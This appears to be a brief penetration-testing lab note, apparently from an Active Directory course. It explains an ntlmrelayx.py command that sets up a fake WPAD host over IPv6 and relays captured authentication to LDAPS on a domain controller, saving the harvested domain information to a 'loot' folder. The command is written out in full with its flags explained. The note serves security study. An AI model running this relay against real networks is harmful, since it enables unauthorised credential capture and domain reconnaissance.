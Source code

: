 This is to set up a fake wpad so that we get network information
- [WPAD](https://en.wikipedia.org/wiki/Web_Proxy_Auto-Discovery_Protocol) information here
- DNS discovery, more or less
`ntlmrelayx.py -6 -t ldaps://10.20.30.10 -wh fakewpad.marvel.local -l myloot
`
Options:
- `-6`
	- Use IPv6
- `-t`
	- Target machine
	- typically want this to be the DC
- `-wh`
	- fake WPAD
	- `name.domain.local`
- `-l`
	- loot
	- where do you want your information stored?
	- creates a folder named whatever you name it
	- Will have domain information
